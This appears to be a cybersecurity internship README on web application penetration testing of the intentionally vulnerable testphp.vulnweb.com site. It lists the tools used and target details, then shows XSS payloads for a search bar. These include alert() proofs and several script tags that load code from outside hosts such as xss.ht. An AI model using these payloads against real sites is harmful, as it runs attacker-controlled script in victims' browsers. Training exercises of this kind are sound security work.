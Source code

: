 # CODTECH-Task2


# WEB APPLICATION PENETRATION TESTING
# Personal information

* Name : Patel Mihir

* Company : CODTECH IT SOLUTIONS PVT.LTD

* ID : CT08DAB

* Domain : Cyber Security & Ethical Hacking

* Duration: 20th Dec 2024 To 20th Jan 2025

* Mentor : Neela Santhosh kumar

# Overview

* Web Application Penetration Testing involves identifying and exploiting security vulnerabilities in web applications to ensure they are secure against potential attacks. This process focuses on vulnerabilities like SQL injection, cross-site scripting (XSS), and insecure authentication mechanisms.

# objective

1. Identify vulnerabilities
2. Exploit weaknesses to understand potential attacks
3. Recommend remediation to enhance security

# Tools used in web application Testing

- sqlmap
- burpsuite
- nmap
- nikto
- dirb
- owasp zap
- Metasploit Framework
- nessus etc.

# focus vulnerabilities

- cross site scripting (XSS)
- SQL injection
- insecure authentication
- open redirect etc.

# Performed Task
# Details of site where we performed the web application Testing

- Site Name : http://testphp.vulnweb.com
- IP address : 44.228.249.3
- Web server : HTTPServer[nginx/1.19.0]
- technology used : 1. PHP[5.6.40-38+ubuntu20.04.1+deb.sury.org+1] , 2. Script[text/JavaScript]
- Port : 80 [http] open

# Performed Testing on testphp.vulnweb.com

# 1. XSS Vulnerability

step 1 : Now first open the site and write xss payload on serachbar.

    <script>alert("XSS vulnerability found")</script>  
<br> 

    <script>alert(1)</script>    
<br> 

    <script>alert(document.domain.concat("\n").concat(window.origin))</script>    
<br> 

    <img src=x onerror=alert('XSS');>    
<br>  

    "><script src="https://js.rip/<custom.name>"></script>

    "><script src=//<custom.subdomain>.xss.ht></script> 

    <script>$.getScript("//<custom.subdomain>.xss.ht")</script>     


